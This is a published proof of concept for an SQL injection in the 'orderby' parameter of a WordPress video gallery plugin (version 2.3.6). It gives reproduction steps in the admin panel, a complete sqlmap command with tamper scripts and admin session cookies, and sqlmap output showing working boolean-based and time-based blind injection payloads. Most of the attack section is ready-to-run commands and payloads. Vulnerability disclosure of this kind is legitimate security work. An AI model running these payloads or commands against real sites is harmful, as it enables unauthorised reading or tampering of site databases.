 #### Exploit Title: Wordpress Video Gallery - YouTube Gallery and Vimeo Gallery Plugin SQL Injection 
#### Date: 2024-07-05
#### Exploit Author: tmrswrr
#### Category : Webapps
#### Vendor Homepage: https://total-soft.com/wp-video-gallery/
#### Version 2.3.6

1. **Access the Admin Panel:**
   - Navigate to the admin panel of your WordPress site.
   - Go to `TS Video Gallery > Create > Use Theme` and save it.

2. After saving, go back to TS Video Gallery and click the title: https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=asc

3. Search for the `orderby` parameter.

## SQLMAP COMMAND

```bash
python3 sqlmap.py -u "https://localhost/wordpress/wp-admin/admin.php?page=tsvg-admin&orderby=TS_VG_Title&order=desc" --batch --dbms=mysql --thread 10 --no-cast --random-agent -v 3 --tamper="between,randomcase,space2comment" --level=5 --risk=3 -p orderby --cookie="wordpress_logged_in_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|0b78b25e2683d7f381967019db82b3f3fd9b06f1524ec128af92a74fe7c68e8f; \
wordpress_sec_d31d6d9d0bfd834c03c5a471886561f0=admin|1720346143|BXq7Kk6kWE6W8OhFfxRfE1vpFt00m9gRiPafjJPDU1N|307f68044e4c2632757b13f86f770ceda3c9c7866a0b595b33a7a2f675224a15; \
wordpress_test_cookie=WP Cookie check; \
wp-settings-time-1=1720173805" --thread 10
```

## RESULT

sqlmap identified the following injection point(s) with a total of 1026 HTTP(s) requests:
---
Parameter: orderby (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: page=tsvg-admin&orderby=(SELECT (CASE WHEN (1078=1078) THEN 0x54535f56475f5469746c65 ELSE (SELECT 2977 UNION SELECT 8545) END))&order=desc
    Vector: (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE (SELECT [RANDNUM1] UNION SELECT [RANDNUM2]) END))

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=tsvg-admin&orderby=TS_VG_Title AND (SELECT 6127 FROM (SELECT(SLEEP(5)))mIWx)&order=desc
    Vector: AND (SELECT [RANDNUM] FROM (SELECT(SLEEP([SLEEPTIME]-(IF([INFERENCE],0,[SLEEPTIME])))))[RANDSTR])
---
[08:37:45] [WARNING] changes made by tampering scripts are not included in shown payload content(s)
[08:37:45] [INFO] the back-end DBMS is MySQL
[08:37:45] [PAYLOAD] (seLecT/**/(cAsE/**/WHen/**/(veRSIOn()/**/liKe/**/0x254d61726961444225)/**/ThEN/**/0x54535f56475f5469746c65/**/elSE/**/(seLecT/**/6685/**/UNiON/**/seLecT/**/9990)/**/End))
web application technology: Apache 2.4.54, PHP 8.0.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)

<img alt="Result" src="https://raw.githubusercontent.com/capture0x/Gallery-Plugin-SQL-Injection/main/10.png">
